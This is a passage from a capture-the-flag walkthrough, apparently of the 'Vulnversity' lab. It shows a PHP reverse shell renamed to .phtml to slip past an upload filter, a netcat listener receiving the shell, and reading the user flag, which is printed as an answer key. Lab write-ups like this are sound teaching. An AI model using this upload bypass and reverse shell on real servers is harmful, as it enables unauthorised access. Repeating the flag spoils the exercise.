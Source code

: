  > *Using [php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) , changing the extension to `.phtml` and uploading.*

  ![solution](./resources/Task_3_3.png)

  ~~~bash
  $ nc -lvp 1234
  listening on [any] 1234 ...
  10.10.5.177: inverse host lookup failed: Unknown host
  connect to [10.9.90.233] from (UNKNOWN) [10.10.5.177] 49168
  Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
   11:18:49 up 51 min,  0 users,  load average: 0.02, 0.01, 0.00
  USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
  /bin/sh: 0: can't access tty; job control turned off
  $ cd home
  $ ls
  bill
  ~~~

- What is the user flag?

  **Solution: 8bd7992fbe8a6ad22a63361004cfcedb**

  ~~~bash
  $ cd bill
  $ ls      
  user.txt
  $ cat user.txt
  8bd7992fbe8a6ad22a63361004cfcedb
  ~~~

---

### [Task 5]  Privilege Escalation

